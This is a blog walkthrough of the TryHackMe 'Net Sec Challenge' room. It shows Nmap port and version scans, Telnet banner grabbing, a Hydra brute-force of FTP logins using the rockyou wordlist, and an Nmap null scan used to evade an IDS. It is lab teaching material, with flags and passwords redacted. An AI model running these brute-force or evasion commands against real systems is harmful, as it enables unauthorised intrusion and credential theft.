


+++
title = 'TryHackMe: Net Sec Challenge'
date = 2024-06-07T19:19:00-00:00
draft = false
tags = ['TryHackMe']
Summary = 'Walkthrough of net sec challenge on tryhackme.'
+++

---

### Introduction

Name: [Net Sec Challenge](https://tryhackme.com/r/room/netsecchallenge)

Creator: strategos

Release Date: 12-10-2021 

Difficulty: Medium

This machine presents a series of questions that build upon knowledge gained in the network security module. Said questions test proficiency in Nmap, Telnet, and Hydra.

---

### Question 1

We must identify the highest open port number, less than 10,000. We can perform a full TCP port scan using with Nmap using the `-p-` flag.

```console
nmap -p- <TARGET IP>
```

```console
Nmap scan report for <TARGET IP>
[ output truncated ]
Host is up (0.017s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
[ output truncated ]
```

The highest open port number less than 10,000 is port 8080. The meticulous hacker will note there is an unknown service running on port 10021, and they are right to do so as this is part of later challenges.

---

### Question 2

To answer this question, we can simply refer back to the scan we previously performed, where we found port 10021 open. As it's both an uncommon port, and above 10,000 it is the answer to this question.

---


### Question 3

Again, refer to the previous scan where there are 6 ports open on TCP. 


---


### Question 4

There is a flag hidden in the header of the HTTP server. Though we could uncover the flag using other tools, TryHackMe suggests we use Telnet. 

```console
telnet <TARGET IP> 80 
```

```console
Trying <TARGET IP>...
Connected to <TARGET IP>.
[ output truncated ]
Server: lighttpd THM{FLAG-REDACTED}
[ output truncated ]
```

Note that you will have to type `GET / HTTP/1.0` followed by the enter key, to receive a response from the host.


---


### Question 5

Another flag hides in the SSH server header. We can perform an Nmap scan on port 22 with the `-sV` flag to find it.

```console 
nmap -sV -p 22 <TARGET IP>
```

```console
Nmap scan report for <TARGET IP>
Host is up (0.015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh (protocol 2.0)
[ output truncated ]
```

---


### Question 6

Similarly to the previous question, we can perform an Nmap scan with the `-sV` flag to determine the service version running on port 10021.

```console
nmap -sV -p 10021 <TARGET IP>
```

```console
Nmap scan report for <TARGET IP>
Host is up (0.015s latency).
PORT      STATE SERVICE VERSION
10021/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix
[ output truncated ]
```

Aha, the service version running on this port is `vsftpd 3.0.3`.


---


### Question 7

This question has a few more steps involved to find the flag, but it is nothing to be feared. Firstly, we'll create a wordlist with the usernames eddie and quinn, like so:

```console
echo -e  "eddie\nquinn" >>  usernames.txt
```

Now we want to use hydra to brute force the logins for these users on the FTP server, we'll use the usernames.txt file we just created for our list of users, and rockyou.txt as our password dictionary.

```console
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ftp://<TARGET IP>:10021
```

```console
[ output truncated ]
[10021][ftp] host: <TARGET IP>   login: eddie   password: PASSWORD-REDACTED
[10021][ftp] host: <TARGET IP>   login: quinn   password: PASSWORD-REDACTED
[ output truncated ]
```
Passwords in hand, we can now login to the server to find our flag.

```console
ftp eddie@<TARGET IP> 10021
```

```console
Connected to <TARGET IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30016|)
150 Here comes the directory listing.
226 Directory send OK.
```
Hmm, it appears the flag is not in Eddie's directory. No matter, let's try logging in as Quinn instead.

```console 
ftp quinn@<TARGET IP> 10021
```

```console
Connected to <TARGET IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
[ output truncated ]
ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
[ output truncated ]
```

Perfect, we have the flag.


---


### Question 8 

In this last question, we must perform an Nmap scan that goes undetected by the IDS to get the final flag. Sometimes, this challenge does not work from a local machine, it didn’t work on mine. So you may need to switch to an attackbox.


_The challenge as it appears in a web browser._

Though scans performed with fragmented packets and other evasion techniques go undetected, only a null scan will succeed in uncovering the flag.

```console
sudo nmap -sN <TARGET IP> 
```

```console
Nmap scan report for ip-10-10-204-203.eu-west-1.compute.internal (<TARGET IP>)
Host is up (0.00044s latency).
Not shown: 995 closed ports
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
8080/tcp open|filtered http-proxy
MAC Address: 02:5D:7F:94:CD:45 (Unknown)
[ output truncated ]
```
To obtain the flag, navigate to the challenge in your web browser of choice:


_The now completed challenge, revealing the last flag we need._